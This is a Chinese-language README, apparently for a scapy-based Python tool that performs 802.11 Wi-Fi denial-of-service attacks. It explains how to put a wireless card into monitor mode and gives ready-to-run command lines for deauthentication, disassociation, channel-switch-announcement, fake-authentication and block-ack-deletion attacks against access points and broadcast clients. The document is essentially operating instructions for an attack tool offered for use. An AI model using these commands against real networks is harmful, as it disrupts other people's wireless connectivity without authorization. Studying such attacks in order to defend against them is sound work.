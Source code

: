 # scapy 802.11 dos攻击

## 前提条件
#### 你需要有一块无线网卡并可以置于monitor模式并切换到相应信道,假设interface是wlan0,ap位于信道1：
    iw dev wlan0 set type monitor (如果报错 先down掉: ip link set wlan0 down)
    
    iw dev wlan0 set channel 1 (如果之前down了网卡需要up起来：ip link set wlan up (如果rfkill报错 执行:rfkill unblock 0 (0是rfkill list 对应物理网卡的编号)))
   
#### 安装sacpy     
    pip3 install scapy
    
    
###  目前实现：
    deauthentication 解认证攻击 可以广播，不能攻击开启了管理帧保护的ap
    
    disassociation   解连接 可以广播，不能攻击开启了管理帧保护的ap
    
    csa(channel switch announcement) 信道切换攻击
    
    fake_auth 假认证攻击    
    
  
    

## example
#### deauthentication attack
    ./dos11.py deauth --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0
#### disassociation attack
    ./dos11.py disas  --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0
#### channel switch announcement
    ./dos11.py csa --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0 --switch-channel 1
#### fake auth 
    ./dos11.py fake_auth --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0 --auth-algorithm 1 --interval 0
#### delete block ack (maybe not work)
    ./dos11.py delba --client-mac   FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0


    

    
    

    
 
